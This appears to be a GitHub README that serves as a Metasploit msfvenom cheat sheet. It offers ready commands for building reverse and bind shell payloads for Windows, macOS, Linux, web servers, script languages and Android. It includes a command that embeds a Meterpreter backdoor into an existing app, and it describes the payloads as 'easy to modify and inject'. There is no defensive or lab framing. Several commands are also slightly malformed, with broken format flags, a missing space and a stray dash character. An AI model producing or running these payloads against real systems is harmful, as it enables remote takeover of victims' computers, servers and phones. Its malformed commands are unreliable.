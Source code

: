 # Payloads
Android and different os payloads easy to modify and inject

<h2>Cheetsheet Metasploit</h2>

Windows Payloads
Windows Meterpreter Reverse Shell

<pre>$ msfvenom -p windows/meterpreter/reverse_tcp lhost=ip-address lport=port -f exe > payload-name.exe </pre>

Windows Reverse Shell
<pre>$ msfvenom -p windows/shell/reverse_tcp lhost=ip-address lport=port -f exe > payload-name.exe </pre>

Windows Encoded Meterpreter Reverse Shell
<pre>$ msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 2 -f exe > payload-name.exe </pre>

Windows Meterpreter Reverse Shellcode
<pre>$ msfvenom -p windows/meterpreter/reverse_tcp lhost=ip-address lport=port -f < platform  </pre>

macOS Payloads
macOS Bind Shell
<pre>$ msfvenom -p osx/x86/shell_bind_tcp rhost=ip-address lport=port-f macho > payload-name.macho </pre>

macOS Reverse Shell
<pre>$ msfvenom -p osx/x86/shell_reverse_tcp lhost=ip-address lport=port -f macho > payload-name.macho </pre>

macOS Reverse TCP Shellcode
<pre>$ msfvenom -p osx/x86/shell_reverse_tcp lhost=ip-address lport=port -f < platform  </pre>

Linux Payloads
Linux Meterpreter TCP Reverse Shell
<pre>$ msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=ip-address lport=port -f elf > payload-name.elf </pre>

Linux Bind TCP Shell
<pre>$ msfvenom -p generic/shell_bind_tcp rhost=ip-address lport=port -f elf > payload-name.elf </pre>

Linux Bind Meterpreter TCP Shell
<pre>$ msfvenom -p linux/x86/meterpreter/bind_tcp rhost=ip-address lport=port -f elf > payload-name.elf </pre>

Linux Meterpreter Reverse Shellcode
<pre>$ msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=ip-address lport=port -f < platform  </pre>

Web-base Payloads
PHP Meterpreter Reverse Shell
<pre>$ msfvenom -p php/meterpreter_reverse_tcp lhost=ip-address LPORT=port -f raw > payload-name.php </pre>

JSP Java Meterpreter Reverse Shell
<pre>$ msfvenom -p java/jsp_shell_reverse_tcp lhost=ip-address lport=port -f raw > payload-name.jsp </pre>

ASP Meterpreter Reverse Shell
<pre>$ msfvenom -p windows/meterpreter/reverse_tcp lhost=ip-address lport=port -f asp > payload-nmae.asp </pre>

WAR Reverse TCP Shell
<pre>$ msfvenom -p java/jsp_shell_reverse_tcp lhost=ip-address lport=port -f war > payload-name.war </pre>

Script-Base Payloads
Perl Unix Reverse shell
<pre>$ msfvenom -p cmd/unix/reverse_perl lhost=ip-address lport=port -f raw > payload-name.pl </pre>

Bash Unix Reverse Shell
<pre>$ msfvenom -p cmd/unix/reverse_bash lhost=ip-address lport=port -f raw > payload-name.sh </pre>

Python Reverse Shell
<pre>$ msfvenom -p cmd/unix/reverse_python lhost=ip-address lport=port -f raw > payload-name.py </pre>

Android Payloads
Android Meterpreter reverse Payload
<pre>$ msfvenom –p android/meterpreter/reverse_tcp lhost=ip-address lport=port R > payload-name.apk </pre>

Android Embed Meterpreter Payload
<pre>$ msfvenom -x yourapp.apk android/meterpreter/reverse_tcp lhost=ip-address lport=port -o payload-name.apk </pre>

